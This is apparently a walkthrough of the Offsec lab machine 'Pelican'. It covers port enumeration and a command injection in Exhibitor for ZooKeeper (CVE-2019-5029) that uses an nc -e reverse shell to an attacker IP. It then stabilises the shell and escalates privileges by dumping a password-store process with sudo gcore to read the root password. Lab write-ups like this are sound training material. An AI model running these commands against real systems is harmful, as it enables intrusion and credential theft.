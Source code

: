 ```yaml
---
title: Pelican
date: 2024-01-19 09:45:47 +07:00
modified: 2024-01-19 09:45:47 +07:00
tags: [ Pelican, Gcore, Exhibitor, Zookeeper, CVE-2019-5029, Linux, OSCP, Writeup]
description: Write Up for Offsec Machine Pelican
image: https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/offsecbanner.jpeg)



<img src="https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Pelican</font>

​		11<sup>th</sup> October 2020

​		Machine Author(s): [Offsec]

​		

### Description:

Let's hope to see one at the zoo.

### Difficulty:

`Intermediate`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 192.168.196.98`

`nmap -sC -sV -p21,23,80 192.168.196.98 -oA ./nmap/pelican`

|Ports|Service
|22| ssh OpenSSH 7.9p1 Debian
|139| netbios-ssn Samba smbd 3.X - 4.X
|445| 563cafdc3028 Samba smbd 4.9.5-Debian
|631| ipp CUPS 2.2
|2181| zookeeper Zookeeper 3.4.6-1569965
|2222| ssh OpenSSH 7.9p1 Debian
|8080| HTTP Jetty 1.0
|8081| HTTP nginx 1.14.2

![](https://photos.squarezero.dev/file/abir-images/Pelican/1.png)

I have checked SMB share where 2 shares are listed but no access to them.

`smbmap -H 192.168.196.98`

![](https://photos.squarezero.dev/file/abir-images/Pelican/2.png)

# Foothold

I checked checked port 8081 which redirected me to port 8080.
Here I found Exhibitor for ZooKeeper.

![](https://photos.squarezero.dev/file/abir-images/Pelican/3.png)

I looked for known exploits and found [CVE-2019-5029](https://www.exploit-db.com/exploits/48654)

![](https://photos.squarezero.dev/file/abir-images/Pelican/4.png)

It's explained that as Exhibitor have any kind of authenticator we can execute Code via java.env.

First, we have to turn on Editing next we can execute commands using `$()`.

After that we Click Commit > All At Once > OK.

`$(/bin/nc -e /bin/sh 192.168.45.177 4444 &)`

![](https://photos.squarezero.dev/file/abir-images/Pelican/5.png)

It takes 30 sec for it to execute and we get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Pelican/6.png)

# Privilege Escalation

Let's get a proper shell. We can run the commands in the following order.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + z
reset
stty raw -echo; fg
stty rows 54
stty columns 141
export TERM=screen
```
We check what can Charles run as sudo and we find its [gcore]().

`sudo -l`

![](https://photos.squarezero.dev/file/abir-images/Pelican/7.png)

According to [GTFObin](https://gtfobins.github.io/gtfobins/gcore/) using gcore we can dump process and read information.

I also looked for SUID binaries and found [password-store]().

`find / -perm -u=s -type f 2>/dev/null`

![](https://photos.squarezero.dev/file/abir-images/Pelican/8.png)

Let's look for PID for password-store

`ps -aux | grep password-store`

![](https://photos.squarezero.dev/file/abir-images/Pelican/9.png)

We can now drop the process using gcore.

`sudo /usr/bin/gcore 493`

![](https://photos.squarezero.dev/file/abir-images/Pelican/10.png)

Inside the file, we can find the password of root.

![](https://photos.squarezero.dev/file/abir-images/Pelican/11.png)

Now we can login with the password and get the proof.txt.

![](https://photos.squarezero.dev/file/abir-images/Pelican/12.png)